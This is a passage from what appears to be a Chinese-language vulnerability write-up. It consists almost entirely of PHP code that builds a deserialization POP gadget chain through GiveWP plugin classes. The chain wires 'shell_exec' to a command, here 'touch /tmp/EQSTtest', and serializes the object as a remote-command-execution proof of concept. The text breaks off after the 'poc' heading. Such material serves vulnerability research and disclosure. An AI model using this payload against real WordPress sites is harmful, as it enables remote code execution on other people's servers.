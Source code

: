```
  class GiveInsertPaymentData{
    public $userInfo;
    public function __construct()
{
        $this->userInfo['address'] = new \Give();
    } 
  }
}  

namespace{
  class Give{
    protected $container;
    public function __construct()
{
      $this->container = new \Give\Vendors\Faker\ValidGenerator();
    }
  }
}

namespace Give\Vendors\Faker{
  class ValidGenerator{
    protected $validator;
    protected $generator;
    public function __construct()
{
      $this->validator = "shell_exec";
      $this->generator = new \Give\Onboarding\SettingsRepository();
    }
  }
}

namespace Give\Onboarding{
  class SettingsRepository{
    protected $settings;
    public function __construct()
{
      $this -> settings['address1'] = 'touch /tmp/EQSTtest';
    }
  }
}

namespace{
  $a = new Stripe\StripeObject();
  echo serialize($a);
}
```  
# 通过 POP 链进行远程命令执行   
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vZZfNxKcwj42Ce815MG9ia76vp75xLtrxfic2DBg5doqRicEP1nIFPfLFdTZfLGvTagHK8TDNt1cl29Erbk3Yedbg/640?wx_fmt=png&from=appmsg "")  
  
  
👇 poc  
  
